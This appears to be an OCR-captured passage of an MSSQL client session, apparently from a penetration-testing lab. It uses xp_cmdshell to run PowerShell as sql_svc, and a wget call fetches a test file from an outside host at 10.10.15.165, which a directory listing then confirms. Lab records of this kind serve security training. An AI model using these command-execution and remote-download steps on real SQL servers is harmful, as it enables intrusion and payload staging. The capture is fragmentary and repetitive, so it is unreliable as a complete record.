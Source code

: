 sql_svc                  WDAGUtilityAccount                                        

The command completed successfully.                                                

NULL                                                                               

NULL                                                                               

SQL> xp_cmdshell "powershell -c cd c:\Users\sql_svc\Downloads; wget http://10.10.15.165/test.txt -outfile test2.txt"
output                                                                             

--------------------------------------------------------------------------------   

NULL                                                                               

--------------------------------------------------------------------------------   

NULL                                                                               

SQL> xp_cmdshell "powershell -c dir c:\Users\sql_svc\Downloads"
output                                                                             

--------------------------------------------------------------------------------   

NULL                                                                               

NULL                                                                               

    Directory: C:\Users\sql_svc\Downloads                                          

NULL                                                                               

NULL                                                                               

Mode                LastWriteTime         Length Name                                                                     

----                -------------         ------ ----                                                                     

-a----        5/14/2022   9:14 AM              7 test2.txt                                                                

NULL                                                                               

NULL                                                                               

NULL                                                                               

SQL> 



 --------------------------------------------------------------------------------   

NULL                                                                               

SQL> xp_cmdshell "powershell -c dir c:\Users\sql_svc\Downloads"
output                                                                             

--------------------------------------------------------------------------------   

NULL                                                                               

NULL                                                                               

